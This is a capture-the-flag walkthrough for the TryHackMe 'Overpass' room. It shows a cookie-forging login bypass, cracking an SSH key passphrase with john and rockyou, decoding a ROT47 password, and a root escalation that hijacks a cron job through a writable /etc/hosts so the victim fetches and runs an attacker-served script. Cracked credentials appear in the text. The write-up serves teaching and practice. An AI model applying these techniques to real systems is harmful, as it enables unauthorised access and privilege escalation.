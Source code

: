 ```yaml
---
title: Overpass WalkThrough
permalink: /overpass
layout: page
tags: TryHackMe
---
```

# Overpass
![front](/images/overpass/front.png)
[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)
 
## Open ports:
	- 22: SSH
	- 80: HTTP
![ports](/images/overpass/ports.png)

## Port 80:
* starting Dirbuster:
	* found /admin 
		* On futhur inspection found the response login.js code
		* On undserstating the code and simply changing the _cookies.set_
		```javascript 
		Cookies.set("SessionToken","Done");
		```
		![cookie](/images/overpass/cookieSet.png)

		* Now on reloading the page:
		![reload](/images/overpass/onreload.png)
		* we find the **ssh key** and save it on out pc.

## Port 22:
```
chmod 600 ssh_key
```
**Username:** James
* while logging in it is asking for passphrase
* So, **ssh2john**
 ```python 
 /usr/share/john/ssh2john.py ssh_key > hash.txt
 john --wordlist=/usr/share/wordlist/rockyou.txt --format=SSH hash.txt
 ```
![cracked](/images/overpass/cracked.png)
* found the passphrase: **james13**

### User Flag:
![uflag](/images/overpass/uflag.png)

## Priviledge Escalation"
* on Looking at the files in out present dir:
	* found .overpass file with encrypted passwd
	```
	,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
	```
	* which encrytion is this?
	* Going to https://www.dcode.fr/cipher-identifier 
	![efound](/images/overpass/efound.png)
	* So it is likely to be ROT47
	* After decoding:
	```
	[{"name":"System","pass":"saydrawnlyingpicture"}]
	```
* Uploading lineum.py....
* [+]Starting linpeas.sh
* **under crontab section found**
![cron](/images/overpass/cron.png)
* **Found /etc/hosts** writable
	* change the overpass.thm ip to our <ip>
	* create dir `mkdir -p downloads/src/` 
	* create a `buildscript.sh` inside src folder
	* nano bashscript.sh
	```
	cat /root/root.txt >> /tmp/flag.txt
	```
	* inside victim :
	```
	touch /tmp/flag.txt
	```
	* Now go to www and start
	```
	sudo python -m SimpleHTTPServer 80
	```
	* wait for the victim to connect to your http and run the `bashscript.sh`
	* Go to victim machine `cat /tmp/flag.txt`

### Root Flag:
![root](/images/overpass/root.png)